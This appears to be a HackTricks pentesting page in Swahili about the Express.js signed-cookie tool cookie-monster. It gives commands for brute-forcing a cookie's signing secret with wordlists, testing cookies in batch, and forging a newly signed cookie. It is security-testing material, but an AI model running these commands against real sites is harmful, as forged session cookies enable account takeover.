 # NodeJS Express

{{#include ../../banners/hacktricks-training.md}}

## Saini ya Keki

Chombo [https://github.com/DigitalInterruption/cookie-monster](https://github.com/DigitalInterruption/cookie-monster) ni zana ya kujiendesha kwa ajili ya kujaribu na kusaini tena siri za keki za Express.js.

### Keki moja yenye jina maalum
```bash
cookie-monster -c eyJmb28iOiJiYXIifQ== -s LVMVxSNPdU_G8S3mkjlShUD78s4 -n session
```
### Orodha ya maneno ya kawaida
```bash
cookie-monster -c eyJmb28iOiJiYXIifQ== -s LVMVxSNPdU_G8S3mkjlShUD78s4 -w custom.lst
```
### Jaribio la kuki nyingi kwa kutumia hali ya kundi
```bash
cookie-monster -b -f cookies.json
```
### Jaribu kuki nyingi kwa kutumia hali ya kundi na orodha ya maneno ya kawaida
```bash
cookie-monster -b -f cookies.json -w custom.lst
```
### Encode and sign a new cookie

Ikiwa unajua siri, unaweza kusaini cookie hiyo.
```bash
cookie-monster -e -f new_cookie.json -k secret
```
{{#include ../../banners/hacktricks-training.md}}
